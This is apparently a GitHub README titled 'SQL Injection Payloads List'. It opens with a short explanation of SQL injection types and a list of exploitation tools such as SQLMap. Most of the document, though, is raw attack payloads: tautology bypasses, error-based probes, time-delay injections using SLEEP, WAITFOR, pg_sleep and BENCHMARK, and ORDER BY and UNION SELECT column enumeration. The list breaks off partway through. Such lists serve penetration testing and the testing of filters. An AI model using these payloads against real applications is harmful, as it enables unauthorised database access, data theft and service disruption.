

## **SQL Injection Payloads List**

### **SQL Injection**

In this section, we'll delve into the world of SQL injection, unveiling its intricacies and illustrating common attack vectors. We’ll explore techniques to identify and exploit diverse SQL injection vulnerabilities, while also providing essential strategies to safeguard against these critical threats.

### **What is SQL injection (SQLi)?**

SQL injection is a critical web security vulnerability that empowers attackers to manipulate the queries an application sends to its database. By exploiting this flaw, attackers can access sensitive data beyond their authorized reach, potentially exposing information belonging to other users or any data the application can access. This access can lead to unauthorized data modification or deletion, resulting in lasting alterations to the application's functionality and content.

Moreover, SQL injection attacks can escalate, enabling attackers to breach the underlying server or compromise other back-end infrastructure. In extreme cases, these attacks can even facilitate denial-of-service events, severely disrupting the availability of the application.



| SQL Injection Type                       | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| In-band SQLi (Classic SQLi)              | In-band SQL Injection is the most common and straightforward type of attack. It occurs when the attacker uses the same communication channel to both inject malicious SQL queries and retrieve results. The two primary forms of in-band SQLi are Error-based SQLi and Union-based SQLi, both of which allow attackers to quickly gain insights or manipulate the database.                                                                                                                                                                                                                   |
| Error-based SQLi                         | This technique relies on error messages returned by the database server. The attacker can exploit these errors to gather information about the database structure, which might be enough to enumerate entire tables or databases without further exploitation.                                                                                                                                                                                                                                                                                                                                |
| Union-based SQLi                         | Union-based SQL Injection leverages the UNION SQL operator to combine the results of multiple SELECT statements into a single response. This technique enables attackers to retrieve multiple sets of data in one go by embedding malicious SQL queries into the original request.                                                                                                                                                                                                                                                                                                            |
| Inferential SQLi (Blind SQLi)            | Inferential SQL Injection is a more subtle attack method, where attackers dont directly retrieve data. Instead, they infer information based on the behavior of the database and application. Though it is slower than in-band SQLi, inferential SQLi is just as potent. It’s commonly called “blind SQL Injection” because the attacker receives no visible feedback. However, by sending specific queries and observing the applications response, the attacker can reconstruct the underlying database structure. There are two types: Boolean-based Blind SQLi and Time-based Blind SQLi. |
| Boolean-based (Content-based) Blind SQLi | In this technique, the attacker sends a query that forces the application to return different content based on whether the query returns a TRUE or FALSE value. By observing changes or no changes in the content of the HTTP response, attackers can determine the validity of their SQL query and infer information from the database.                                                                                                                                                                                                                                                      |
| Time-based Blind SQLi                    | Time-based Blind SQL Injection relies on the databases response time to indicate whether a query is valid. The attacker sends a query that forces the database to wait for a specified period before responding. If the response is delayed, the attacker knows the query returned TRUE; if it’s immediate, the result is FALSE. This technique allows attackers to extract data even when no information is returned by the application.                                                                                                                                                     |
| Out-of-band SQLi                         | Out-of-band SQL Injection is less common, as it relies on database features that aren’t always available. It occurs when the attacker uses a different channel for sending malicious queries and retrieving results, unlike in-band SQLi. This technique is particularly useful when in-band attacks are unreliable due to server instability or when features such as HTTP responses are delayed.                                                                                                                                                                                            |
| Voice-Based SQL Injection                | Voice-Based SQL Injection targets systems that interact with databases through voice commands. In this method, an attacker could exploit voice input systems by issuing malicious SQL queries through spoken commands, allowing unauthorized access to the database. As voice-controlled applications become more popular, this vector could potentially open new avenues for attackers.                                                                                                                                                                                                      |

## **Top SQL Injection Tools for Database Exploitation and Security Testing**

+ **[SQLMap](https://github.com/sqlmapproject/sqlmap)** – An advanced and highly automated SQL injection tool that allows full control over database takeovers. SQLMap is widely recognized for its powerful features, including the ability to detect and exploit                SQL injection vulnerabilities and provide an in-depth database fingerprinting, data retrieval, and even remote code execution.


+ **[jSQL Injection](https://github.com/ron190/jsql-injection)** – A lightweight and fast Java-based tool designed for automatic SQL injection. It simplifies the process of exploiting SQL injection vulnerabilities in databases, offering user-friendly features                        like database schema exploration, data extraction, and remote database modification.


+ **[BBQSQL](https://github.com/Neohapsis/bbqsql)** – A tool specifically designed for blind SQL injection exploitation. BBQSQL excels in situations where traditional SQL injection tools fail due to lack of visible output, providing robust methods to                    infer information from vulnerable databases without needing direct feedback.


+ **[NoSQLMa](https://github.com/codingo/NoSQLMap)** – A tool built for automating the detection and exploitation of NoSQL databases like MongoDB, CouchDB, and Redis. It brings the SQL injection concept to NoSQL databases, enabling the exploitation of                    improperly secured NoSQL instances through injection techniques.


+ **[Whitewidow](https://www.kitploit.com/2017/05/whitewidow-sql-vulnerability-scanner.html)** – A powerful SQL vulnerability scanner that quickly detects SQL injection vulnerabilities on websites. It automates the process of scanning large sets of URLs for SQLi weaknesses, making it an                          essential tool for pen testers and security professionals.


+ **[DSSS (Damn Small SQLi Scanner)](https://github.com/stamparm/DSSS)** – A compact yet efficient SQL injection scanner, ideal for quickly identifying SQL vulnerabilities in web applications. DSSS is designed for minimal resource usage, making it                                            perfect for lightweight tasks while maintaining strong detection capabilities.


+ **[Explo](https://github.com/dtag-dev-sec/explo)** – A versatile tool that reads and generates human and machine-readable web vulnerability testing reports. It helps security professionals and developers by automating SQL injection testing and generating               comprehensive vulnerability assessments.


+ **[Blind-SQL-Bitshifting](https://github.com/awnumar/blind-sql-bitshifting)** – A niche tool used for exploiting blind SQL injection vulnerabilities via bit-shifting techniques. This unique approach allows attackers to extract database information even in                                         restricted environments where traditional methods fail.


+ **[Leviathan](https://github.com/leviathan-framework/leviathan)** – A mass auditing toolkit designed to conduct wide-range security assessments. Leviathan offers capabilities for SQL injection testing, along with other mass auditing functions for web applications,                    making it a go-to for large-scale penetration tests.


+ **[Blisqy](https://github.com/JohnTroony/Blisqy)** – A specialized tool that exploits time-based blind SQL injection vulnerabilities found within HTTP headers, particularly targeting MySQL/MariaDB databases. Blisqy is efficient for detecting and                        exploiting time-delayed responses in SQL injections, making it suitable for harder-to-exploit scenarios.


These tools cover a broad spectrum of SQL injection and vulnerability testing scenarios, offering different methods and approaches to detect, exploit, and secure databases.


### **SQL Injection Payloads**

```SQL Injection
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick
```
### **Error Based Payloads**


```Error Based
OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 13-- 
 ORDER BY 14-- 
 ORDER BY 15-- 
 ORDER BY 16-- 
 ORDER BY 17-- 
 ORDER BY 18-- 
 ORDER BY 19-- 
 ORDER BY 20-- 
 ORDER BY 21-- 
 ORDER BY 22-- 
 ORDER BY 23-- 
 ORDER BY 24-- 
 ORDER BY 25-- 
 ORDER BY 26-- 
 ORDER BY 27-- 
 ORDER BY 28-- 
 ORDER BY 29-- 
 ORDER BY 30-- 
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 
 ORDER BY 11# 
 ORDER BY 12# 
 ORDER BY 13# 
 ORDER BY 14# 
 ORDER BY 15# 
 ORDER BY 16# 
 ORDER BY 17# 
 ORDER BY 18# 
 ORDER BY 19# 
 ORDER BY 20# 
 ORDER BY 21# 
 ORDER BY 22# 
 ORDER BY 23# 
 ORDER BY 24# 
 ORDER BY 25# 
 ORDER BY 26# 
 ORDER BY 27# 
 ORDER BY 28# 
 ORDER BY 29# 
 ORDER BY 30#
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 6 
 ORDER BY 7 
 ORDER BY 8 
 ORDER BY 9 
 ORDER BY 10 
 ORDER BY 11 
 ORDER BY 12 
 ORDER BY 13 
 ORDER BY 14 
 ORDER BY 15 
 ORDER BY 16 
 ORDER BY 17 
 ORDER BY 18 
 ORDER BY 19 
 ORDER BY 20 
 ORDER BY 21 
 ORDER BY 22 
 ORDER BY 23 
 ORDER BY 24 
 ORDER BY 25 
 ORDER BY 26 
 ORDER BY 27 
 ORDER BY 28 
 ORDER BY 29 
 ORDER BY 30 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'
```
### **Time Based Payloads**

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

### **Union Select Payloads**

```
ORDER BY SLEEP(5)
 ORDER BY 1,SLEEP(5)
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 ORDER BY SLEEP(5)#
 ORDER BY 1,SLEEP(5)#
 ORDER BY 1,SLEEP(5),3#
 ORDER BY 1,SLEEP(5),3,4#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 ORDER BY SLEEP(5)-- 
 ORDER BY 1,SLEEP(5)-- 
 ORDER BY 1,SLEEP(5),3-- 
 ORDER BY 1,SLEEP(5),3,4-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1,2,3,4,5,6,7,8
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
